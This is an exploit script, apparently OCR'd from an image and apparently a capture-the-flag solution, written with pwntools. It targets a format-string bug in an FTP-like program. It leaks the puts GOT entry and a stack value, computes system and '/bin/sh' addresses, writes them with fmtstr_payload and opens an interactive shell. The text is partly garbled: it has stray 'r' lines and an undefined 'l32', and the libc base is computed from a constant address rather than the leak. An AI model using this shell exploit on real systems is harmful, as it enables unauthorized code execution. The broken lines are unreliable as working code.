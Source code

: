 ```plain
context.terminal = ['gnome-terminal','-x','sh','-c']

r
sla(":",'rxraclhm')
pause()
ru("ftp>")
puts=elf.got['puts']
puts_libc=libc.symbols['puts']
def name_content(x,y):
    p.sendline('put')
    r
    p.sendline(x)
    r
    p.sendline(y)
    r
    p.sendline('get')
    r
    p.sendline(x)
    r
name_content("puts",b'%8$s'+p32(elf.got['puts']))
r
puts_addr=l32
#0x804a028
leak('puts',puts)
pause()

libcbase=0x804a028-puts_libc

leak('libcbase',libcbase)

system_addr=libcbase+libc.symbols['system']
binsh_addr=libcbase+next(libc.search(b'/bin/sh\00'))

name_content("ebp",b'a %70$d') #%70$d a 0x7f4fd52ae5e0 0x7f9e30b055e0


tmp = p.recv()
#print(tmp)
ebp = int(tmp.split(b'a ')[1].rstrip(b'ftp>'))
print(ebp)




esp = (ebp & 0x0FFFFFFF0) - 0x40


payload = fmtstr_payload(7, {esp+4: binsh_addr})
name_content('binsh', payload)
r

payload = fmtstr_payload(7, {esp-4: system_addr})
name_content('system', payload)
r

p.interactive()
```
